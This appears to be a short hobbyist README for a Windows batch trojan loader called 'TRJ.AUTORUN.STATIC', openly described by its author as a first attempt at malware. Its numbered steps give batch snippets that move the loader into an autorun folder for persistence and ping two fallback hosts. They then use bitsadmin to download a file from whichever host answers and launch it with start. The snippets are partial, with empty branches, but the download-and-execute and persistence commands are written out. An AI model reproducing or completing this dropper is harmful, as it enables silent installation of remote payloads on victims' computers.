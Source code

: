 # TRJ.AUTORUN.STATIC
first attempt at malware?

### PoC
actually more of a how-it-works but PoC sounds cooler sooo

1. Check if loader is in autorun
```
if not exist "%directory%\%name%" (

) else (
 
)
```

2. if not move there and try again
```
move "%path%" "%directory%"
call "%directory%\%name%"
```

3. if yes check if website a is online
```
ping -n 1 %a% >nul
if %errorlevel% equ 0 (
    
) else (
    
)
```

4. if website a is offline check website b
```
ping -n 1 %b% >nul
if %errorlevel% equ 0 (
    
) else (
    
)
```

5. if website b is offline give up
```
echo static is broken.
```

6. if website b is online get the file and run it
```
bitsadmin /transfer downloadB /download /priority high %b% %d%
start %d%
```

7. if website a is online get the file and run it
```
bitsadmin /transfer downloadB /download /priority high %a% %c%
start %c%
```

### that took a while btw





